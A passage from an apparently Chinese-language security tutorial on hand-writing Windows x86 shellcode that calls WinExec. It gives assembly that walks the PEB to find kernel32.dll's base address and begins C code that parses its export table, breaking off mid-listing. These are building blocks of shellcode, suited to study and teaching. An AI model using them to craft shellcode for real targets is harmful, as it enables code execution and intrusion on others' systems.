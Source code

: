 0x5 ShellCode 实现
================

下面让我们聚焦于如何逐步实现可调用WinExec函数的Window x86 ShellCode，来执行自定义的命令。

0x5.1 获取Kernel32基地址
-------------------

因为Window下每个EXE默认都会加载Kernel32.dll(系统库)，其加载基址由于ASLR的原因，会在系统重启的时候，进行随机化，所以我们需要在进程空间中通过FS寄存器访问PEB，以此来获取到随机化的地址。

简化步骤:

```php
1.fs:0x30获得PEB地址
2.偏移0x0c获得PEB_LDR_DATA结构地址
3.偏移0x14获得InMemoryOrderModuleList的
4.遍历InMemoryOrderModuleList的LIST_ENTRY找到kernel32
5.偏移0x10获取到kernel32.dll的基地址
```

![locate_dll](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-6456161aec2afdbf399cf675e5101107e2790623.png)

汇编实现:

```assembly
mov ebx, fs:0x30    ; Get pointer to PEB
mov ebx, [ebx + 0x0C] ; Get pointer to PEB_LDR_DATA
mov ebx, [ebx + 0x14] ; Get pointer to first entry in InMemoryOrderModuleList
mov ebx, [ebx]      ; Get pointer to second (ntdll.dll) entry in InMemoryOrderModuleList
mov ebx, [ebx]      ; Get pointer to third (kernel32.dll) entry in InMemoryOrderModuleList
mov ebx, [ebx + 0x10] ; Get kernel32.dll base address
```

如果还不能够理解，可以阅读笔者之前写的一篇详细的文章:[x32 PEB: 获取Kernel32基地址的原理及实现](https://xz.aliyun.com/t/10478)

0x5.2 获取导出函数(API)
-----------------

获取到Kernel32.dll的基地址imagebase，之后就是解析Kernel32.dll的导出表，获取到WinExec函数的偏移RVA，然后加上imagebase即是函数的虚拟内存地址(VA,Vitrual Address)，之后便可以通过地址访问来调用函数。

**一、C语言实现**

```c
#include <Windows.h>
#include <stdio.h>
int main()
{
    // Get kernel32.dll Address ;
    HANDLE kAdress = GetModuleHandle(L"kernel32");
    UINT buf = (UINT)kAdress;
    printf("kernel32.dll BaseAddress:0x%p\n", kAdress);
    PIMAGE_DOS_HEADER pDOS = (PIMAGE_DOS_HEADER)buf;
    // Get NtHeader Address ;
    PIMAGE_NT_HEADERS pNT = (PIMAGE_NT_HEADERS)(buf + pDOS->e_lfanew);
    printf("NtHeader Address: 0x%p\n", pNT);
    // Get ExportTable Address from DataDirectory index [0] ;
    IMAGE_EXPORT_DIRECTORY* exportDir = (IMAGE_EXPORT_DIRECTORY*)(buf + pNT->OptionalHeader.DataDirectory[0].VirtualAddress);
    printf("ExportDir Address: 0x%p\n", (int *)exportDir);
    // Get Export Function Number ;
    int numberOfFunctions = exportDir->NumberOfFunctions;
    printf("NumberOfFunctions: %d -> 0x%x\n", numberOfFunctions, numberOfFunctions);
    // Get Named Function Number ;
    int numberOfNames = exportDir->NumberOfNames;
    printf("numberOfNames: %d -> 0x%x\n", numberOfNames, numberOfNames);
    // Get  RVA from base of image -> AddressOfFunctions ;
    UINT*  rvafunctions = (UINT *)(buf + exportDir->AddressOfFunctions);
```